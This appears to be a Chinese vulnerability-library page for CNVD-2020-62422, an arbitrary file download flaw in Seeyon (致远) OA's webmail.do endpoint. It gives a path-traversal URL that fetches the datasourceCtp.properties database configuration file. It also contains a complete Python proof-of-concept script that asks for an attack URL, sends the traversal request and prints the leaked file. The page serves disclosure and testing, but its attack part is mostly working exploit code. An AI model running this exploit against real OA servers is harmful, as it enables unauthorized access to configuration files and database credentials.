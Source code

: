 ```yaml
---
title: 致远OA webmail.do任意文件下载 CNVD-2020-62422
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 致远OA
---
```


# 致远OA webmail.do任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 致远OA A6-V5
>
> 致远OA A8-V5
>
> 致远OA G6

## 漏洞复现

访问 url  http://xxx.xxx.xxx.xxx/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties

存在漏洞的OA 系统将会下载 **datasourceCtp.properties** 配置文件

![](/img/20210924013741873916.png)

更改参数 filePath 可下载其他文件

##  漏洞利用POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                          \033[0m')
    print('+  \033[34mVersion: 致远OA多个版本				                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "workflow" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](/img/20210924013742169303.png)

## Goby & POC

> [!NOTE]
>
> 致远OA webmail.do任意文件下载 CNVD-2020-62422

![](/img/20210924013742481463.png)